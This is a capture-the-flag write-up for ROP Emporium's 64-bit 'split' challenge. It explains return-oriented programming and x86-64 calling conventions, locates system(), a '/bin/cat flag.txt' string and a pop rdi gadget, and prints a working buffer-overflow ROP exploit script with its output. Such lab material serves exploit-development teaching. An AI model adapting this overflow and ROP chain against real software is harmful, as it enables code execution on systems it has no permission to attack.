

#ROP Emporium - 64bit - split
https://ropemporium.com/challenge/split.html

Challenge Description
Description for split on ropemporium:
In this challenge the elements that allowed you to complete the ret2win challenge are still present, they've just been split apart. Find them and recombine them using a short ROP chain.
This is challenge is our first exposure to ROP.
This time, there's no "win" function that will read the flag for us. Instead, we have to build a command that will read the flag for us.
As mentioned in the description, everything we need to read the flag - the system() function, a "/bin/cat flag.txt" string, and a pop rdi; ret gadget are all present within the binary. We just have to find them to package them together in an exploit.
About ROP
ROP stands for Return Oriented Programming. It's a technique used in exploit development to run arbtritray code using instructions already present in the program's code. You can read a compiled binary's assembly code by running objdump -d <binary>.
ROP is often used when you're unable to drop shellcode onto the stack or are limited by binary protections.
Gadgets
ROP makes use of "gadgets".
Gadgets are assembly instructions already present in the program's code that end in a ret instruction.
ret is an assembly instruction, and stands for "return".
This ret instruction allows you to run an assembly instruction of your choice and then "return" to another place in memory, such as the address of another assembly instruction + ret instruction.
By chaining gadgets together (that is, chaining assembly instruction + ret sequences already present in the binary's code together), you can run arbitrary code by chaining instructions already present in the program's code.
ROP Example
For example, you want to call the mprotect() function, which can be used to set the permissions of the to stack to executable.
This requires RAX to contain mprotect()'s syscall number 10.
You've found 2 gadgets in the binary:
• mov rax, 0x07; ret located at 0x200
• add rax, 0x3; ret located 0x300
And you've got the address of libc syscall(), used to call mprotect()
• libc syscall() located at 0x800
Psuedo ROP Script
from pwn import *
mov_rax_ret = p64(0x200)
add_rax_ret = p64(0x300)
libc_syscall = p64(0x800)
payload = "A"*40 # offset to RIP
payload += mov_rax_ret # run mov rax, 0x07; ret
# ROP chain START
# ret 1
payload += add_rax_ret # return to add rax, 0x03; ret instruction
# ret 2
payload += libc_syscall # return to libc syscall() function to call mprotect()
print payload
#1
First, you overflow the buffer, and overwrite RIP with the address of mov rax, 0x07; ret - 0x200.
mov will move 7 into RAX.
ret will read the next address on the stack and return to it (0x300).
#2
Second, you write the address of add rax, 0x3; ret to the stack - 0x300.
0x300 is what ret from the previous mov rax, 0x07; ret instruction will jump/return to.
This means that add rax, 0x3; ret will run and 3 will be added to RAX.
RAX now contains 10, the syscall number for our mprotect() function.
#3
Lastly, we write the address of libc syscall() to the stack.
The ret instruction from add rax, 0x3; ret will jump/return to the address of libc syscall() and run it, and our mprotect() function will execute.
We've successfully set up RAX using ROP gadgets and run the mprotect() function.
Summary
• You move 7 into RAX, and return to the next instruction
• You add 3 to RAX, and return to the next instruction
• You run syscall(), which takes the number in RAX and calls that function - mprotect()
*NOTE: This example ROP chain wouldn't work because it's mixing 64-bit registers with 32-bit calling conventions. It works as an example, but don't try using it.
The Key to ROP
You'll notice from all of this is that the key to ROP is ret.
Without ret, you can't return to another instruction and your chain of instructions/ROP chain will end.
About 64-bit Calling Conventions
When you call a function, you have to set up the function's parameters.
On 32-bit machines, parameters for functions are read from the stack.
On 64-bit machines, parameters for functions are read from registers, not the stack.
The parameters are read from registers in this order - RDI, RSI, RDX, RCX, R8, R9
If there are more than 6 parameters, extra parameters are placed onto the stack.
If you're building a ROP chain, you'll probably need to find a pop rdi; ret gadget since most functions often require at least 1 parameter.
split Solution
To exploit split and read the flag, we need to find:
• The address of system()
• The address of a "/bin/cat flag.txt" string
• A pop rdi; ret gadget to pop a "/bin/cat flag.txt" into RDI so that it can be used with system()
1) Find address of system()
Have a look for system() in the binary's imports.
root@city64:~/ctf/ropemporium/2-split# rabin2 -i split
[Imports]
Num Vaddr Bind Type Name
1 0x004005d0 GLOBAL FUNC puts
2 0x004005e0 GLOBAL FUNC system
3 0x004005f0 GLOBAL FUNC printf
4 0x00400600 GLOBAL FUNC memset
5 0x00400610 GLOBAL FUNC __libc_start_main
6 0x00400620 GLOBAL FUNC fgets
7 0x00000000 WEAK NOTYPE __gmon_start__
8 0x00400630 GLOBAL FUNC setvbuf
7 0x00000000 WEAK NOTYPE __gmon_start__
system() is located at 0x004005e0.
2) Find a "/bin/cat flag.txt" string
Have a look for a "/bin/cat flag.txt" string using rabin2.
root@city64:~/ctf/ropemporium/2-split# rabin2 -z split
[Strings]
Num Paddr Vaddr Len Size Section Type String
000 0x000008a8 0x004008a8 21 22 (.rodata) ascii split by ROP Emporium
001 0x000008be 0x004008be 7 8 (.rodata) ascii 64bits\n
002 0x000008c6 0x004008c6 8 9 (.rodata) ascii \nExiting
003 0x000008d0 0x004008d0 43 44 (.rodata) ascii Contriving a reason to ask user for data...
004 0x000008ff 0x004008ff 7 8 (.rodata) ascii /bin/ls
000 0x00001060 0x00601060 17 18 (.data) ascii /bin/cat flag.txt
A "/bin/cat flag.txt" string is available in the .data section of the binary at 0x00601060.
3) Find a gadget to setup system()
Lastly, look for a pop rdi; ret gadget using gdb-peda.
root@city64:~/ctf/ropemporium/2-split# gdb -q split
Reading symbols from split...(no debugging symbols found)...done.
gdb-peda$ break main
Breakpoint 1 at 0x40074a
gdb-peda$ run
Starting program: /root/ctf/ropemporium/2-split/split
...
Breakpoint 1, 0x000000000040074a in main ()
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x00400883 : (b'5fc3') pop rdi; ret
There's a pop rdi; ret instruction at 0x00400883.
4) Write exploit script
At this point, we have everything we need to read our flag.
Exploit plan
1. Overflow the buffer with 40 bytes of junk
2. Overwrite RIP with a pop rdi; ret instruction
3. Write the "/bin/cat flag.txt" string onto the stack so that it'll be popped into RDI
4. Run system()
Python script
import struct
pop_rdi_ret = struct.pack('<Q', 0x00400883)
cat_flag_string_addr = struct.pack('<Q', 0x00601060)
system_addr = struct.pack('<Q', 0x004005e0)
payload = "A"*40 # offest to RIP
payload += pop_rdi_ret # overwrite RIP
payload += cat_flag_string_addr # pop "/bin/cat flag.txt" into RDI
payload += system_addr # run system("/bin/cat flag.txt")
print payload
5) Win!
root@city64:~/ctf/ropemporium/2-split# python splitpwn.py | ./split
split by ROP Emporium
64bits
Contriving a reason to ask user for data...
> ROPE{a_placeholder_32byte_flag!}
Segmentation fault